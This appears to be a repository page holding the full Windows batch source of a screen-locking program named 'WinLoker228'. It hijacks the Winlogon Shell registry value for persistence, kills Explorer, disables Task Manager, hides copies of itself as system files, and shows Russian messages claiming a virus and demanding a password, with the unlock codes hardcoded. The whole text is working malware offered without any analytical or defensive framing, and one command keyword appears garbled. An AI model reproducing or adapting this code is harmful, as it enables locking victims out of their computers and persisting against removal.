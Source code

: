 # WinLoker228-for-my
[SRC]Echo_inactive_inactive off CHCP 1251 cls Set Yvaga=На вашем компьютере найден вирус. Set pass=Пароль Set pas=Введите пароль. Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль Set dim=Выключаю вирус... title Внимание!!! CHCP 866 IF EXIST C:\windows\boot.bat ( goto ok ) cls IF NOT EXIST C:\windows\boot.bat ( ECHO Windows Registry Editor Version 5.00 >> C:\0.reg ECHO. >> C:\0.reg ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg ECHO. >> C:\0.reg ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg start/wait regedit -s C:\0.reg del C:\0.reg ECHO Echo_inactive_inactive off >>C:\windows\boot.bat ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat ECHO start sys.bat >>C:\windows\boot.bat attrib +r +a +s +h C:\windows\boot.bat copy virus.bat c:\windows\sys.bat attrib +r +a +s +h C:\windows\sys.bat GOTO end) :ok cls Echo %Yvaga% echo. echo %virus% echo %pas% set /a choise = 0 set /p choise=%pass%: if "%choise%" == "101" goto gold if "%choise%" == "200393" goto status exit :status echo %dim% attrib -r -a -s -h C:\windows\boot.bat del C:\windows\boot.bat attrib -r -a -s -h C:\windows\sys.bat del C:\windows\sys.bat cls :gold start C:\ :end[/SRC]
